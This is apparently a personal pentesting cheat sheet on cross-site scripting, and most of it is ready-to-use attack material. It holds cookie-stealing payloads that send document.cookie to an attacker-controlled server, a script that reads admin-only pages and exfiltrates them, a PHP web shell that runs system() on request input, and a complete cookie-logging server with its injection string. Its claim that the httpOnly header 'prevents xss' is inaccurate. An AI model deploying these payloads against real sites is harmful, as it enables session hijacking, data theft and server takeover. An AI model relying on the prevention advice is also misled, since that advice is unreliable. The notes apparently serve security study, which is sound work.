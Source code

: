# XSS - Cross Site Scripting

## Overview

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page

## Description

Cross-Site Scripting (XSS) attacks occur when:

Data enters a Web application through an untrusted source, most frequently a web request.
The data is included in dynamic content that is sent to a web user without being validated for malicious content.

## Prevention

If the http header "httpOnly" is set to True, this prevents xss

### Cross-Origin-Opener-Policy:

If the http Header Cross-Origin-Opener-Policy is : same origin we cannot use xss payloads with fetch.
But we can try this payload

```javascript
<script>img=new Image();img.src="http://[myip]:[myport]/?img="+btoa(document.cookie);</script>
```

When we receive the cookie decode it

```shell
echo -n [cookie] | base64 -d
```

## Common Payloads

Steal cookies

	<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
	<img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	"><img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	'><img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	<script>document.location='http://<YOUR_SERVER_IP>/?cookie='+document.cookie;</script>

If there is no cookie, e can also try to access pages the only the admin can have access, by doing:

	<script>
	fetch("http://page_that_only_admin_has_access_to")
	.then(response => response.text()) // Convert the response to text
	.then(data => {
		fetch("http://our_server_ip/?data=" + encodeURIComponent(data)); // Exfiltrate data
	})
	.catch(error => console.error("Error fetching the messages:", error));
	</script>

This fetches the page that onyl the admin has access to, converts it to text, uri encodes it, and then sends the data back to us.

## php payloads

	if isset($_REQUEST['cmd']){
		system($_REQUEST['cmd']);
	}
	then we pass the cmd arg in the request:
	<url>?cmd=whoami


## With files

Create a index.php with:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Create a script.js with:

```javascript
new Image().src='http://10.10.14.15:9200/index.php?c='+document.cookie
```

Start a php webserver:

```shell
sudo php -S 0.0.0.0:9200
```

Finally inject the XSS:

```html
"><script src=http://10.10.14.15:9200/script.js></script>
```


## Tips

If the username might be seen by an admin account, try to register a username as a xss payload


## Relevant Information

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://owasp.org/www-community/attacks/xss/

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting